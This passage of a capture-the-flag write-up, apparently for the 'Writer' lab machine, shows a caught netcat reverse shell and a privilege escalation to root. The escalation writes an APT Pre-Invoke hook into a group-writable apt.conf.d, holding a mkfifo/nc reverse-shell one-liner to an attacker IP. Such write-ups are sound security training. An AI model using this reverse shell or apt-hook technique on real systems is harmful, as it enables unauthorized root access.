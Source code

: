 ```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 35814
bash: cannot set terminal process group (42682): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ id
id
uid=1001(john) gid=1001(john) groups=1001(john)
john@writer:/var/spool/postfix$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
john@writer:/var/spool/postfix$
```

### john -> root

pspy to monitor processes: `sudo apt-get update` is a scheduled task as root privilege

![image-20240206213059348](./Writer.assets/image-20240206213059348.png)

```console
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
john@writer:~$ find / -group management 2>/dev/null -ls
    17525      4 drwxrwxr-x   2 root     management     4096 Jul 28  2021 /etc/apt/apt.conf.d
```

So, we know the apt.conf.d directory is writable => exploit apt-get

- https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
- https://systemweakness.com/code-execution-with-apt-update-in-crontab-privesc-in-linux-e6d6ffa8d076

**Exploit**:

```console
john@writer:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 10.10.14.14 4321 >/tmp/f"};' > /etc/apt/apt.conf.d/00-pwn
```

